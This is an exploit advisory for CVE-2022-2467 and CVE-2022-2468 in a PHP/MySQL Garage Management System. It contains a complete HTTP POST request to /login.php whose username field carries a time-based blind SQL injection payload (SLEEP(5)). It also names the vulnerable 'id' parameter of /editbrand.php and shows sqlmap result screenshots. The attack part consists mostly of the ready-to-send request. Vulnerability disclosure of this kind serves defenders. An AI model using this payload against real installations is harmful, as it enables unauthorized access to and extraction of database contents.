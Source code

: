 ### Exploit Title: Garage Management System - Multiple SQL injections
### Date: 2022-07/19
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/15485/garage-management-system-using-phpmysql-source-code.htm
### Version: 1.0
### Tested on: windows10 + phpstudy

# 1./login.php(CVE-2022-2467)
/login.php SQL injection exists at the login port

### Sample request POC #1

```
POST /login.php HTTP/1.1
Host: [TARGET URL/IP]
Content-Length: 41
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://shen-ji.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://shen-ji.com/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=coj91b4jkkol1s8oalg3r7in12
Connection: close

username=1@a.com' AND (SELECT 6427 FROM (SELECT(SLEEP(5)))LwLu) AND 'hsvT'='hsvT&password=412312&login=
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/20220719153600.png "Garage Management System")


# 2./editbrand.php(CVE-2022-2468)
/editbrand.php SQL injection exists for parameter ID

### Sample request POC #2

```
http://[ip:port]/editbrand.php?id=1
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/20220719154113.png "Garage Management System")


